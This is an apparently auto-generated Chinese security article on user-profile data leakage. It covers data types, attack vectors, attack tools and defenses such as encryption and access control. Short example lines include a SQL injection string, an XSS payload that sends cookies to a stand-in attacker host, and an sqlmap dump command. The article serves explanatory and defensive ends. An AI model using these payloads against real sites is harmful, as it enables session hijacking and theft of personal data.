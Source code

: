 # 用户画像数据泄露：技术分析与防御策略

## 1. 概述

### 1.1 定义
用户画像数据泄露（User Profile Data Leakage）是指与用户相关的个人、行为、偏好等敏感信息在未经授权的情况下被非法获取、传播或利用的安全事件。这些数据通常包括但不限于用户的姓名、年龄、性别、地理位置、消费习惯、社交关系、浏览历史等。

### 1.2 背景
随着大数据和人工智能技术的广泛应用，用户画像已成为企业精准营销、个性化推荐和风险控制的核心工具。然而，用户画像数据的集中存储和广泛使用也使其成为攻击者的主要目标。一旦泄露，不仅会导致用户隐私的严重侵犯，还可能引发法律诉讼、品牌声誉受损等严重后果。

---

## 2. 用户画像数据的组成与分类

### 2.1 数据组成
用户画像数据通常由以下几类信息构成：
1. **基础信息**：姓名、年龄、性别、联系方式等。
2. **行为信息**：浏览历史、购买记录、点击行为等。
3. **偏好信息**：兴趣标签、消费习惯、产品偏好等。
4. **社交信息**：社交关系、互动频率、好友列表等。
5. **设备信息**：设备型号、操作系统、IP地址等。
6. **地理位置信息**：GPS坐标、常驻地点、活动轨迹等。

### 2.2 数据分类
根据数据的敏感程度，用户画像数据可分为：
1. **公开数据**：用户主动公开的信息，如社交媒体上的个人简介。
2. **半公开数据**：需要一定权限才能访问的数据，如好友列表。
3. **敏感数据**：涉及用户隐私的核心数据，如身份证号、消费记录。
4. **高度敏感数据**：可能直接导致用户身份被盗用的数据，如银行卡信息、生物特征数据。

---

## 3. 用户画像数据泄露的原理与攻击向量

### 3.1 泄露原理
用户画像数据泄露通常发生在以下环节：
1. **数据采集**：通过恶意脚本或第三方SDK非法收集用户数据。
2. **数据传输**：在未加密或弱加密的通信通道中被窃取。
3. **数据存储**：因数据库配置不当或权限管理漏洞导致数据暴露。
4. **数据处理**：在数据分析或共享过程中被恶意利用。
5. **数据销毁**：未彻底清除的数据被恢复或泄露。

### 3.2 常见攻击向量
1. **SQL注入**：通过注入恶意SQL语句，直接访问或导出数据库中的用户画像数据。
   ```sql
   SELECT * FROM users WHERE username = 'admin' OR '1'='1';
   ```
2. **API滥用**：利用未受保护的API接口，批量获取用户数据。
   ```bash
   curl -X GET "https://api.example.com/users?limit=1000"
   ```
3. **跨站脚本攻击（XSS）**：通过注入恶意脚本，窃取用户会话或本地存储的数据。
   ```javascript
   <script>document.location='http://attacker.com/steal?cookie='+document.cookie;</script>
   ```
4. **数据爬取**：通过自动化工具抓取公开或半公开的用户数据。
5. **内部威胁**：员工或合作伙伴滥用权限，非法访问或泄露数据。
6. **第三方风险**：因第三方服务或供应商的安全漏洞导致数据泄露。

---

## 4. 技术细节与案例分析

### 4.1 数据泄露的技术路径
1. **数据库暴露**：未配置防火墙或访问控制的数据库直接暴露在公网。
   - 案例：2021年某电商平台因MongoDB未设置密码，导致数百万用户数据泄露。
2. **日志泄露**：调试日志中记录的用户敏感信息被公开。
   - 案例：某社交平台因日志中包含用户Token，导致账户被劫持。
3. **缓存穿透**：缓存系统被恶意利用，绕过数据库直接获取数据。
   - 案例：某新闻App因Redis配置不当，用户画像数据被批量导出。
4. **数据脱敏失效**：脱敏算法被逆向工程，原始数据被恢复。
   - 案例：某金融平台因使用简单哈希算法，用户身份证号被破解。

### 4.2 攻击工具与技术
1. **SQLMap**：自动化SQL注入工具，用于探测和利用数据库漏洞。
   ```bash
   sqlmap -u "http://example.com/user?id=1" --dump
   ```
2. **Burp Suite**：用于拦截和修改API请求，测试数据泄露漏洞。
3. **Scrapy**：Python爬虫框架，用于大规模数据抓取。
   ```python
   import scrapy
   class UserProfileSpider(scrapy.Spider):
       name = "user_profile"
       start_urls = ["http://example.com/users"]
       def parse(self, response):
           for user in response.css("div.user"):
               yield {"name": user.css("span.name::text").get()}
   ```
4. **逆向工程工具**：如IDA Pro、Ghidra，用于分析脱敏算法。

---

## 5. 防御思路与建议

### 5.1 技术防御措施
1. **数据加密**：对存储和传输中的用户画像数据进行强加密（如AES-256）。
   ```python
   from cryptography.fernet import Fernet
   key = Fernet.generate_key()
   cipher_suite = Fernet(key)
   encrypted_data = cipher_suite.encrypt(b"Sensitive User Data")
   ```
2. **访问控制**：实施最小权限原则，限制对用户画像数据的访问。
3. **日志管理**：避免在日志中记录敏感信息，定期审查日志内容。
4. **API安全**：对API接口进行身份验证、速率限制和数据脱敏。
5. **漏洞扫描**：定期进行安全测试，及时发现和修复漏洞。

### 5.2 管理与流程优化
1. **数据分类与分级**：根据敏感程度对用户画像数据进行分类管理。
2. **员工培训**：提高员工的安全意识，防范内部威胁。
3. **第三方审计**：对第三方服务进行安全评估，确保其符合安全标准。
4. **事件响应**：建立数据泄露应急响应机制，及时止损和修复。

### 5.3 法律与合规
1. **隐私保护法规**：遵守GDPR、CCPA等隐私保护法规，确保数据处理合法合规。
2. **用户知情权**：向用户明确说明数据收集和使用的目的，获取用户同意。
3. **数据生命周期管理**：制定数据保留和销毁策略，减少数据泄露风险。

---

## 6. 总结
用户画像数据泄露是当前网络安全领域的重要挑战之一。企业需要从技术、管理和法律等多个层面构建全面的防御体系，以保护用户隐私和数据安全。同时，安全从业人员应持续关注新兴攻击技术和防御方法，不断提升安全能力，应对日益复杂的威胁环境。

---

*文档生成时间: 2025-03-12 15:01:08*

